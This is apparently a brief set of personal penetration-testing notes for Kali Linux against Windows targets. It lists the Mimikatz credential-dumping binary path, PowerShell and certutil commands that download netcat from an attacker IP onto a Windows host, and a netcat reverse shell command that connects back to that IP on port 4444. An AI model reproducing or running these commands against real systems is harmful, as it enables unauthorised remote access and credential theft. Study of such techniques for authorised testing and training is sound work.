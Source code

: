 List the Windows binaries tools on Kali:
`windows-binaries -h`

Location of Mimikatz binary that works:
`/usr/share/windows-resources/mimikatz/x64/mimikatz.exe`

Download file on Windows:
`powershell -c "iwr -uri http://192.168.45.205:4444/nc.exe -Outfile c:/windows/temp/nc.exe"`
or
`certutil -urlcache -f http://192.168.xxx.xxx/nc64.exe c:/windows/temp/nc64.exe`

Make reverse shell:
`c:/windows/temp/nc.exe -e cmd.exe 192.168.45.205 4444`

dir in a tree:
`tree /f`